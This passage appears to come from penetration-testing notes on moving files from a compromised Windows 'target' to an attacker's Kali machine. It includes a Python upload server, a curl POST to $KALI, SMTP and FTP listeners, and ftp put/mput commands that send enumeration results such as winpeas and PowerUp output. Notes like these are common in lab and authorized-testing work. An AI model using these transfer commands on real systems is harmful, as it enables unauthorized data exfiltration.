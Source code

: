 ```python
                self.end_headers()
                self.wfile.write(f"""
                    <html>
                    <head>
                        <meta http-equiv="refresh" content="3; url=/" />
                        <title>Upload Successful</title>
                    </head>
                    <body>
                        <h2>✅ File '{html.escape(filename)}' uploaded successfully.</h2>
                        <p>Redirecting back to the upload page in 3 seconds...</p>
                    </body>
                    </html>
                """.encode())

                print(f"[+] Uploaded: {filename}")
            else:
                self.send_error(400, "No file field in form")
        else:
            self.send_error(400, "Invalid Content-Type")

# Start server
if __name__ == "__main__":
    print("Server listening at http://0.0.0.0:8080")
    HTTPServer(("0.0.0.0", 8080), Handler).serve_forever()
```

Upload from target with curl
```
curl -X POST -F "file=@test.txt" http://$KALI:8080/
```

#### Mail Server
```python
sudo python -m smtpd -n -c DebuggingServer $KALI:25
```
#### FTP Server
```bash - kali
python3 -m pyftpdlib -p 21 --write
```
```batch - windows
ftp $KALI
```
```batch - windows
anonymous
```
```batch - windows
anonymous
```
```batch - windows
binary
```
```batch - windows
put FILE.7z
```
```batch - windows
mput jaws-results.txt PowerUp.txt Seatbelt.txt Sherlock.txt winpeas.txt
```
#### SMB File Transfer
[[Impacket#Python venv quick launch]]
